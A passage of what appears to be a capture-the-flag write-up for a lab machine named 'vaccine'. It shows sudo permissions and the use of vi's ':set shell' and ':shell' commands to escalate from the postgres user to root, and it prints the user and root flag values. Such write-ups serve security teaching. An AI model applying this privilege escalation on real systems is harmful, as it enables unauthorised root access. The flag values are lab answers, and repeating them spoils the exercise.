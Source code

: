And the user flag is right there.

User flag: `ec9b13ca4d6229cd5cc1e09980965bf7`

```console
postgres@vaccine:~$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Ok, we have access to 'vi' as superuser.

```console
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
[sudo] password for postgres:
# PostgreSQL Client Authentication Configuration File
# ===================================================
#
# Refer to the "Client Authentication" section in the PostgreSQL
# documentation for a complete description of this file.  A short
# synopsis follows.
#
# This file controls: which hosts are allowed to connect, how clients
# are authenticated, which PostgreSQL user names they can use, which
# databases they can access.  Records take one of these forms:
#
# local      DATABASE  USER  METHOD  [OPTIONS]
# host       DATABASE  USER  ADDRESS  METHOD  [OPTIONS]
# hostssl    DATABASE  USER  ADDRESS  METHOD  [OPTIONS]
# hostnossl  DATABASE  USER  ADDRESS  METHOD  [OPTIONS]
#
# (The uppercase items must be replaced by actual values.)
#
# The first field is the connection type: "local" is a Unix-domain
# socket, "host" is either a plain or SSL-encrypted TCP/IP socket,
# "hostssl" is an SSL-encrypted TCP/IP socket, and "hostnossl" is a
# plain TCP/IP socket.
#
# DATABASE can be "all", "sameuser", "samerole", "replication", a
# database name, or a comma-separated list thereof. The "all"
# keyword does not match "replication". Access to replication
# must be enabled in a separate record (see example below).
#
:set shell=/bin/sh
:shell

# whoami
root
# pwd
/var/lib/postgresql
# cd /root
# ls
pg_hba.conf  root.txt  snap
# cat root.txt  
dd6e058e814260bc70e9bbdef2715849
```
